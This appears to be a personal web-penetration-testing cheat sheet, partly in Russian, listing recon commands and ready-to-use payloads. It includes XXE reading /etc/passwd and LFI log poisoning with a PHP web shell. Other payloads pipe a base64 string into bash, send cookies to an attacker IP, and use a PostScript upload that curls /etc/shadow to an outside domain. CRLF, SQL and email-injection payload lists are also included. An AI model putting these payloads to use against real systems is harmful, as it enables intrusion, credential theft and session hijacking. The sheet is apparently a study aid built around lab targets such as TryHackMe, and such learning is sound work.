

[back](../README.md)
# Discover hidden directories:
```linux
ffuf -replay-proxy http://127.0.0.1:8080 #ffuf with proxy

subdinder -d target.com -silent | dnsx -silent | gau
```
---
# Discover subdomains:
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 

gobuster vhost -u http://holo.live -w /usr/share/seclists/Discovery/DNS/subdomains.txt -t 30

wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fw 125

ffuf -u http://nahamstore.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nahamstore.thm"

amass enum -brute -passive -d nahamstore.com | anew subdomains.txt
```
---
# Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
---
# Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
---
# Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<product>
  <id>123</id>
  <name>Product XYZ</name>
  <quantity>&xxe;</quantity>
</product>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
]>
```
---
# php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index

curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"

http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
---
# Cadaver for WebDAV
---
# payload in base64 format
```
"\";echo <base64 payload> | base64 -d | bash;\""
```
---
# sql
```bash
sqlmap -r req.txt -p <parametr> --dbs
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
sqlmap -r req.txt-p  -D <database_name> --dump-all

--tamper=space2comment #bypass waf
```

## syntaxis
## mysql
```sql
.tables 										#to see all tables
PRAGMA table_info(<table>) 		#see information
SELECT * FROM customers			#output all info

show databases;
use DATABASE;
show tables
SELECT * FROM users
```
## mongodb
```sql
mongo
show dbs
use <db>
show collections
db.<collection>.find()

search[$ne]=string #mongodb
```
## payloads
```sql
username=gfd'+union+select+'password'+--+-&password=password

?id=2 and 'foo' 'bar' = 'foobar'     # mysql
?id=2 and 'foo'+'bar'='foobar'       # mssql
?id=2 and substring('foo',1,1) = 'f' # postgresql
?id=2 and lengthb('foo') = 3         # oracle
not previous                         # sqlite
```
---
# steal cookie
```
<script>window.location='http://<ip>:port/?cookie=' + document.cookie</script>

<script>document.write('');</script>
```
---
# brute force login


```
hydra -l admin -P /usr/share/seclists/rockyou.txt $IP http-get /inferno
```
---
# CSRF
```
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="user" />
      <input type="hidden" name="status" value="on" />
      <input type="submit" value="Submit request" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

```
как можно байпаснуть csrf: 
change method of request
intersept request, get scrf toket, drop request, paste it in csrf poc
delete scrf token
```
---
# lfi bypass
```
file/etc/passwd?/
file/etc/passwd%3F/
file/etc%252Fpasswd/
file/etc%252Fpasswd%3F/
file/etc/?/../passwd
file/etc/%3F/../passwd?
```
---
# LaTeX injection
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
---
# upload bypass
```
jpg с вот таким содержимым:

%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (var=cat /etc/shadow | base64 && curl YOUR_DOMAIN.LOL/?ssr=$var) currentdevice putdeviceprops

где твой домен точка лол - это твой домен, на который придет пинг. Я для таких целей использую либо requestbin.com, (https://api0.pw/api_0/requestbin.com) либо поднимаю ngrok.
```

```
<svg width="200" height="200" 
xmlns="http://www.w3.org/2000/svg" (http://www.w3.org/2000/svg) xmlns:xlink="http://www.w3.org/1999/xlink"> (http://www.w3.org/1999/xlink) 
<image xlink:href='YOUR_DOMAIN' x='0' y='0' height='1' width='1'/> 
</svg>
И если пинг на твой домен пришел, то ссрф прошло. Но на этом останавливаться не стоит, ведь там может быть rce (Remote Code Execution), и проверяется она точно так же, но в код svg вставляется либо курл на ваш домен, либо что-нибудь типа etc/passwd и так же отправляется на домен.
```
---
# CRLF payloads
```
%0AHeader-Test:POXEK
%0A%20Header-Test:POXEK
%20%0AHeader-Test:POXEK
%23%OAHeader-Test:POXEK
%E5%98%8A%E5%98%8DHeader-Test:POXEK
%E5%98%8A%E5%98%8D%0AHeader-Test:POXEK
%3F%0AHeader-Test:POXEK
crlf%0AHeader-Test:POXEK
crlf%0A%20Header-Test:POXEK
crlf%20%0AHeader-Test:POXEK
crlf%23%OAHeader-Test:POXEK
crlf%E5%98%8A%E5%98%8DHeader-Test:POXEK
crlf%E5%98%8A%E5%98%8D%0AHeader-Test:POXEK
crlf%3F%0AHeader-Test:POXEK
%0DHeader-Test:POXEK
%0D%20Header-Test:POXEK
%20%0DHeader-Test:POXEK
%23%0DHeader-Test:POXEK
%23%0AHeader-Test:POXEK
%E5%98%8A%E5%98%8DHeader-Test:POXEK
%E5%98%8A%E5%98%8D%0DHeader-Test:POXEK
%3F%0DHeader-Test:POXEK
crlf%0DHeader-Test:POXEK
crlf%0D%20Header-Test:POXEK
crlf%20%0DHeader-Test:POXEK
crlf%23%0DHeader-Test:POXEK
crlf%23%0AHeader-Test:POXEK
crlf%E5%98%8A%E5%98%8DHeader-Test:POXEK
crlf%E5%98%8A%E5%98%8D%0DHeader-Test:POXEK
crlf%3F%0DHeader-Test:POXEK
%0D%0AHeader-Test:POXEK
%0D%0A%20Header-Test:POXEK
%20%0D%0AHeader-Test:POXEK
%23%0D%0AHeader-Test:POXEK
\r\nHeader-Test:POXEK
 \r\n Header-Test:POXEK
\r\n Header-Test:POXEK
%5cr%5cnHeader-Test:POXEK
%E5%98%8A%E5%98%8DHeader-Test:POXEK
%E5%98%8A%E5%98%8D%0D%0AHeader-Test:POXEK
%3F%0D%0AHeader-Test:POXEK
crlf%0D%0AHeader-Test:POXEK
crlf%0D%0A%20Header-Test:POXEK
crlf%20%0D%0AHeader-Test:POXEK
crlf%23%0D%0AHeader-Test:POXEK
crlf\r\nHeader-Test:POXEK
crlf%5cr%5cnHeader-Test:POXEK
crlf%E5%98%8A%E5%98%8DHeader-Test:POXEK
crlf%E5%98%8A%E5%98%8D%0D%0AHeader-Test:POXEK
crlf%3F%0D%0AHeader-Test:POXEK
%0D%0A%09Header-Test:POXEK
crlf%0D%0A%09Header-Test:POXEK
%250AHeader-Test:POXEK
%25250AHeader-Test:POXEK
%%0A0AHeader-Test:POXEK
%25%30AHeader-Test:POXEK
%25%30%61Header-Test:POXEK
%u000AHeader-Test:POXEK
//www.google.com/%2F%2E%2E%0D%0AHeader-Test:POXEK
/www.google.com/%2E%2E%2F%0D%0AHeader-Test:POXEK
/google.com/%2F..%0D%0AHeader-Test:POXEK
```
---
# email/phone injection payloads
```
"payload"@mail.local
name@"payload"mail.local
name(payload)@mail.local
name@(payload)mail.local
name@mail.local(payload)
"'-sleep(5)-'"@mail.local.
"'-alert(5)-'"@mail.local.
"'--><script/src=//attacker.com></script>"@mail.local
""@mail.local
name(<script>alert(5)</script>)@mail.local
name@mail(<script>alert(5)</script>).local
"'OR 1=1 --'"@mail.local
```

```
+28 (global identifier), 0505552280 (number) and the following parameters such as ;ext=+28 ;isub=12345 and ;phone-context=test are optional parameters.

These are the optional parameters we are interested in. In them you can often write something of your own, thus causing a potential place under XSS,SSRF,SQL,SSTI or use ext parameter to bypass rate-limit:

+280505552280;phone-context=<script>alert(1337)</script>
+280505552280;phone-context=https://evil.com
+280505552280;phone-context=sleep(10)
+280505552280;phone-context={{4*4}}{{6+6}}
+280505552280;ext=N , where we loop over the value of N and thus bypass the rate-limit.
```
# graphql
- [graphql voyager](https://graphql-kit.com/graphql-voyager/)
```
query{__schema{queryType{name}}} # if u can inject => good
in InQL mutations = do something with data, queries = get data
```
## Full introspection query
```
query IntrospectionQuery {
	__schema {
		queryType {
			name
		}
		mutationType {
			name
		}
		subscriptionType {
			name
		}
		types {
		 ...FullType
		}
		directives {
			name
			description
			args {
				...InputValue
		}
		onOperation  #Often needs to be deleted to run query
		onFragment   #Often needs to be deleted to run query
		onField      #Often needs to be deleted to run query
		}
	}
}

fragment FullType on __Type {
	kind
	name
	description
	fields(includeDeprecated: true) {
		name
		description
		args {
			...InputValue
		}
		type {
			...TypeRef
		}
		isDeprecated
		deprecationReason
	}
	inputFields {
		...InputValue
	}
	interfaces {
		...TypeRef
	}
	enumValues(includeDeprecated: true) {
		name
		description
		isDeprecated
		deprecationReason
	}
	possibleTypes {
		...TypeRef
	}
}

fragment InputValue on __InputValue {
	name
	description
	type {
		...TypeRef
	}
	defaultValue
}

fragment TypeRef on __Type {
	kind
	name
	ofType {
		kind
		name
		ofType {
			kind
			name
			ofType {
				kind
				name
			}
		}
	}
}
```
# links
- [steal admin cookie/sqli](./src/marketplace.md) (tryhackme:marketplace)
- [ohmyweb](./src/omyweb.md)
